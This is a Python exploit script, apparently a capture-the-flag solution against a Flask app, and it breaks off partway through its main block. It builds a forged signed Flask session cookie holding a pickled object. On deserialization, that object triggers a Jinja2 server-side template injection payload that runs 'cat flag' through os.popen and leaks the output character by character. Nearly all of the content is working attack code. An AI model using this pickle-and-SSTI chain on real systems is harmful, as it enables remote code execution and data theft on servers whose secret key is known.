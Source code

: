 ```
            try:
                app = MockApp(secret_key)

                # session_cookie_structure = dict(ast.literal_eval(session_cookie_structure))
                si = SecureCookieSessionInterface()
                s = si.get_signing_serializer(app)

                return s.dumps(session_cookie_structure)
            except Exception as e:
                return "[Encoding error] {}".format(e)
                raise e

        def decode(session_cookie_value, secret_key=None):
            """ Decode a Flask cookie  """
            try:
                if (secret_key == None):
                    compressed = False
                    payload = session_cookie_value

                    if payload.startswith('.'):
                        compressed = True
                        payload = payload[1:]

                    data = payload.split(".")[0]

                    data = base64_decode(data)
                    if compressed:
                        data = zlib.decompress(data)

                    return data
                else:
                    app = MockApp(secret_key)

                    si = SecureCookieSessionInterface()
                    s = si.get_signing_serializer(app)

                    return s.loads(session_cookie_value)
            except Exception as e:
                return "[Decoding error] {}".format(e)
                raise e


class Exploit(object):
    def __init__(self, pos):
        self.temp = """{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("ord(__import__('os').popen('cat flag').read()[pos])*'a'") }}{% endif %}{% endfor %}""".replace(
            'pos', pos)

    def __reduce__(self):
        return (
            render_template_string, (self.temp,))


def gen_cookie(pos):
    pos = str(pos)
    savedata = base64.b64encode(pickle.dumps(Exploit(pos)))
    session = {'savedata': savedata}
    return FSCM.encode(secret, session)


if __name__ == "__main__":
    proxy = {'http': 'http://127.0.0.1:1087/'}
```